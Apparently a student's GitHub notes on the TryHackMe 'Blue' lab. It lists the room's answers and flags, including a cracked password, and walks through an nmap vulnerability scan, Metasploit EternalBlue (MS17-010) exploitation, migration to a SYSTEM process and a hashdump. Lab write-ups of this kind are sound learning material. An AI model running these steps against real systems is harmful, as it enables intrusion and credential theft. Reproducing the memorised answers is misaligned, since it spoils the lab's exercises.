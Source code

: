 # Blue machine on thm

This is my first machine repository.\
This repository is made with te purpose of taking notes about the machine, therefore possible future study material.

## THM tasks

- How many ports are open with a port number under 1000?
3

- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
ms17-010

- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
exploit/windows/smb/ms17_010_eternalblue

- Show options and set the one required value. What is the name of this value? (All caps for submission)
rhosts

- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
post/multi/manage/shell_to_meterpreter

- Select this (use MODULE_PATH). Show options, what option are we required to change?
sessions

- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
jon

- Copy this password hash to a file and research how to crack it. What is the cracked password?
alqfna22

- Flag1? This flag can be found at the system root. 
flag{access_the_machine}

- Flag2? This flag can be found at the location where passwords are stored within Windows.
flag{sam_database_elevated_access}

- Flag3?
flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

## Pocedure

### Scanning

First of all, I'm making an nmap scan and saving it in the file initialNmap_scan:
```
sudo nmap -sV -vv -script vuln 10.10.92.38 -oN initialNmap_scan
```

The scans shows a remote code execution (RCE) vulnerability in Microsoft SMBv1 servers.

### Exploit

This vulneravility should be exploitable with metasploit, so I'm starting it:
```
msfconsole
```

I look for the right module in metasploit:
```
search ms17-010
```

I find eternalblue and I select it:
```
use <number of module in the list>
```

After selecting it, I set the value rhosts with the IP of the target machine in THM
```
set rhosts 10.10.92.38
```

It's al set now, time to run the expoit
```
run
```

### Escalate
At this point, I'm rebooting the machine so the IP is different (10.21.13.118)

I've realised that I didn't set the lhost to my openvpn IP, and that was causing the failure, now I set it up:
```
setg lhost 10.21.13.118
```

The exploit should have set up a shell, and I was supposed to escalate it to meterpreter, but with the default payload it already escalated it, so there's no need to do it mannually.
If i run 'shell' and 'whoami' I will get that we are system.

PID of the powershell.exe NT AUTHORITY\SYSTEM: 2900

Now we migrate to this process:
```
migrate PROCESS_ID
```

Now we are in the powershell.
I now run 'hashdump' to get the hashes of the users: Jon, and check if I can crack the password in hashes.com

I've found the first flag running 'search flag*'

Now I just have to go to the directories and check them.
